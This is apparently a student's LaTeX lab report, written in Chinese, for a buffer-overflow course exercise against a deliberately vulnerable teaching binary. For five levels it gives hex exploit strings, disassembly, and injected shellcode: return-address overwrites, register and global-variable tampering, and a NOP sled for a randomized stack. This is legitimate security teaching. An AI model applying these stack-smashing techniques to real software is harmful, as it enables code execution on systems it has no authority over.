\section{各阶段漏洞攻击原理与方法}
\begin{center}
    每阶段25分,文本10分,分析15分,总分不超过80分
\end{center}

\subsection{Smoke的破解与分析}

\textbf{文本如下:}
\begin{minted}[frame=lines,framesep=2mm]{md}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
19 10 40 00 00 00 00 00
\end{minted}

\textbf{分析过程:}
\begin{minted}[frame=lines,framesep=2mm]{asm}
00000000004015d5 <getbuf>:
    4015d5:    48 83 ec 28              sub    $0x28,%rsp
    4015d9:    48 89 e7                 mov    %rsp,%rdi
    4015dc:    e8 f6 fa ff ff           callq  4010d7 <Gets>
    4015e1:    b8 01 00 00 00           mov    $0x1,%eax
    4015e6:    48 83 c4 28              add    $0x28,%rsp
    4015ea:    c3                       retq
\end{minted}
从这里我们可以看到getbuf函数的栈相关情况。
\begin{tabular}{|c|c|}
    \hline 
    栈 & 位置 \\ 
    \hline 
    getbuf返回地址(0x00) & rbp \\ 
    \hline 
    (-0x04) & ... \\ 
    \hline 
    ... & ... \\ 
    \hline 
    (-0x28) & buf  \& rsp \\ 
    \hline 
\end{tabular} 

\begin{minted}[frame=lines,framesep=2mm]{asm}
0000000000401019 <smoke>:
    401019:    48 83 ec 08              sub    $0x8,%rsp
    40101d:    bf cf 26 40 00           mov    $0x4026cf,%edi
    401022:    e8 69 fc ff ff           callq  400c90 <puts@plt>
    401027:    bf 00 00 00 00           mov    $0x0,%edi
    40102c:    e8 ba 06 00 00           callq  4016eb <validate>
    401031:    bf 00 00 00 00           mov    $0x0,%edi
    401036:    e8 c5 fd ff ff           callq  400e00 <exit@plt>
\end{minted}

查到smoke的函数地址是0x00401019。 由于我的系统是小端序,将其按小端序重写是19 10 40 00 00 00 00 00。 将返回地址覆盖,只需要将原先的buf区域全部填0即可,0x28 = 40个字节。

\subsection{Fizz的破解与分析}

\textbf{文本如下:}
\begin{minted}[frame=lines,framesep=2mm]{md}
bf 1b fe f6 51 68 3b 10
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 3c 68 55 00 00 00 00
\end{minted}

\textbf{分析过程:}

\begin{minted}[frame=lines,framesep=2mm]{asm}
000000000040103b <fizz>:
    40103b:    48 83 ec 08              sub    $0x8,%rsp
    40103f:    89 fa                    mov    %edi,%edx
    401041:    3b 3d 65 51 20 00        cmp    0x205165(%rip),%edi
    401047:    75 20                    jne    401069 <fizz+0x2e>
    401049:    be ea 26 40 00           mov    $0x4026ea,%esi
    40104e:    bf 01 00 00 00           mov    $0x1,%edi
    401053:    b8 00 00 00 00           mov    $0x0,%eax
    401058:    e8 73 fd ff ff           callq  400dd0 <__printf_chk@plt>
    40105d:    bf 01 00 00 00           mov    $0x1,%edi
    401062:    e8 84 06 00 00           callq  4016eb <validate>
    401067:    eb 14                    jmp    40107d <fizz+0x42>
    401069:    be 38 25 40 00           mov    $0x402538,%esi
    40106e:    bf 01 00 00 00           mov    $0x1,%edi
    401073:    b8 00 00 00 00           mov    $0x0,%eax
    401078:    e8 53 fd ff ff           callq  400dd0 <__printf_chk@plt>
    40107d:    bf 00 00 00 00           mov    $0x0,%edi
    401082:    e8 79 fd ff ff           callq  400e00 <exit@plt>
\end{minted}

这里发现Fizz用edi与cookie进行比较,所以需要修改edi寄存器的值。

首先进入gdb查到buf的地址是0x55683cb0。

让程序运行我注入的代码:
\begin{minted}[frame=lines,framesep=2mm]{asm}
0:    bf 1b fe f6 51           mov    $0x51f6fe1b,%edi  #cookie
5:    68 3b 10 40 00           pushq  $0x40103b         #fizz
a:    c3                       retq
\end{minted}
修改了edi的值之后返回到fizz函数即可。

\subsection{Bang的破解与分析}

\textbf{文本如下:}
\begin{minted}[frame=lines,framesep=2mm]{md}
c7 04 25 a4 61 60 00 1b
fe f6 51 68 87 10 40 00
c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 3c 68 55 00 00 00 00
\end{minted}

\textbf{分析过程:}
\begin{minted}[frame=lines,framesep=2mm]{asm}
0000000000401087 <bang>:
401087:    48 83 ec 08              sub    $0x8,%rsp
40108b:    8b 15 13 51 20 00        mov    0x205113(%rip),%edx
401091:    3b 15 15 51 20 00        cmp    0x205115(%rip),%edx
401097:    75 20                    jne    4010b9 <bang+0x32>
401099:    be 58 25 40 00           mov    $0x402558,%esi
40109e:    bf 01 00 00 00           mov    $0x1,%edi
4010a3:    b8 00 00 00 00           mov    $0x0,%eax
4010a8:    e8 23 fd ff ff           callq  400dd0 <__printf_chk@plt>
4010ad:    bf 02 00 00 00           mov    $0x2,%edi
4010b2:    e8 34 06 00 00           callq  4016eb <validate>
4010b7:    eb 14                    jmp    4010cd <bang+0x46>
4010b9:    be 08 27 40 00           mov    $0x402708,%esi
4010be:    bf 01 00 00 00           mov    $0x1,%edi
4010c3:    b8 00 00 00 00           mov    $0x0,%eax
4010c8:    e8 03 fd ff ff           callq  400dd0 <__printf_chk@plt>
4010cd:    bf 00 00 00 00           mov    $0x0,%edi
4010d2:    e8 29 fd ff ff           callq  400e00 <exit@plt>
\end{minted}
和上一题的思路类似,这一次修改的是一个全局变量。
同理,进行代码注入。
\begin{minted}[frame=lines,framesep=2mm]{asm}
0:    c7 04 25 a4 61 60 00     movl   $0x51f6fe1b,0x6061a4
7:    1b fe f6 51
b:    68 87 10 40 00           pushq  $0x401087
10:    c3                       retq
\end{minted}

\subsection{Bomb的破解与分析}

\textbf{文本如下:}
\begin{minted}[frame=lines,framesep=2mm]{md}
b8 1b fe f6 51 68 ba 11
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 3c 68 55 00 00 00 00
\end{minted}

\textbf{分析过程:}
\begin{minted}[frame=lines,framesep=2mm]{asm}
000000000040119d <test>:
    40119d:    53                       push   %rbx
    40119e:    48 83 ec 10              sub    $0x10,%rsp
    4011a2:    b8 00 00 00 00           mov    $0x0,%eax
    4011a7:    e8 d7 ff ff ff           callq  401183 <uniqueval>
    4011ac:    89 44 24 0c              mov    %eax,0xc(%rsp)
    4011b0:    b8 00 00 00 00           mov    $0x0,%eax
    4011b5:    e8 1b 04 00 00           callq  4015d5 <getbuf>
    4011ba:    89 c3                    mov    %eax,%ebx
\end{minted}

可以看到,只需要回到4011ba这个位置就可以,而后将返回值eax修改为cookie即可。

构造攻击指令如下:
\begin{minted}[frame=lines,framesep=2mm]{asm}
0:    b8 1b fe f6 51           mov    $0x51f6fe1b,%eax
5:    68 ba 11 40 00           pushq  $0x4011ba
a:    c3                       retq
\end{minted}

\subsection{nitro的破解与分析}

\textbf{文本如下:}
\begin{minted}[frame=lines,framesep=2mm]{md}
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 b8
1b fe f6 51 68 3d 12 40 00 c3
40 3b 68 55 0A
\end{minted}

\textbf{分析过程:}

\begin{minted}[frame=lines,framesep=2mm]{asm}
0000000000401220 <testn>:
    401220:    53                       push   %rbx
    401221:    48 83 ec 10              sub    $0x10,%rsp
    401225:    b8 00 00 00 00           mov    $0x0,%eax
    40122a:    e8 54 ff ff ff           callq  401183 <uniqueval>
    40122f:    89 44 24 0c              mov    %eax,0xc(%rsp)
    401233:    b8 00 00 00 00           mov    $0x0,%eax
    401238:    e8 ae 03 00 00           callq  4015eb <getbufn>
    40123d:    89 c3                    mov    %eax,%ebx
00000000004015eb <getbufn>:
    4015eb:    48 81 ec 08 02 00 00     sub    $0x208,%rsp
    4015f2:    48 89 e7                 mov    %rsp,%rdi
    4015f5:    e8 dd fa ff ff           callq  4010d7 <Gets>
    4015fa:    b8 01 00 00 00           mov    $0x1,%eax
    4015ff:    48 81 c4 08 02 00 00     add    $0x208,%rsp
    401606:    c3                       retq
\end{minted}
这一次testn调用n次getbufn,任务要求是getn返回cookie给testn:
构造攻击指令如下。
\begin{minted}[frame=lines,framesep=2mm]{asm}
0:    b8 1b fe f6 51           mov    $0x51f6fe1b,%eax
5:    68 3d 12 40 00           pushq  $0x40123d
a:    c3                       retq
\end{minted}

看一下每一次的写入字符串的位置是多少以确定将来我们要跳转到哪个位置。 我的分别是: 0x55683ad0 0x55683b20 0x55683b40 0x55683b00 0x55683a60

可以看到最高的地址是0x55683b40,之后我们跳转到这个位置,由于字符串有0x208(520)个字节,我们全部填入nop(0x90),将我们注入的命令写入高位字节,使得跳转之后始终可以到达我们注入的命令。

\subsection{最终破解结果展示}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.7\linewidth]{figures/solution}
    \caption{破解结果}
    \label{fig:solution}
\end{figure}
